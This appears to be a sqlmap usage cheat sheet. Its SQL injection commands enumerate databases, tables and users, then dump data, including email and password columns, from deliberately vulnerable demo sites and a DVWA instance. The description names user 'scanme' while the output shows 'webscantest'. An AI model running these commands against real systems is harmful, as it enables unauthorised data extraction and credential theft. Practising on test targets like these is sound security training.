 # Usage
http://www.webscantest.com/

# Determine the DBMS Behind the Web Site
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4"
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1
# Find the Databases
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --dbs
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
# Get More Info from the Database
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --tables
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --dbs --columns -D webscantest

./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables --columns
# Enumerate the Database Users
./sqlmap.py -u "http://webscantest.com/datastore/search_get_by_id.php?id=4" --users
./sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns

**Output: &&
database management system users [1]:
[*] 'webscantest'@'%'

**Description:* In this case, the user "scanme" can login from any host or IP, as the database admin has used the wildcard "%" which means "any or none".

# Extract the Data
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --dump -D webscantest -T orders
./sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dump -D acuart -T users -C email,name,pass 

#DVWA Example: http://resources.infosecinstitute.com/sql-injection/

1. Get cookie
2. ./sqlmap.py -u "https://sqlmap-dungdt.c9users.io/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=arkk9hvnd6hi86uefdv1vrsts0; security=low"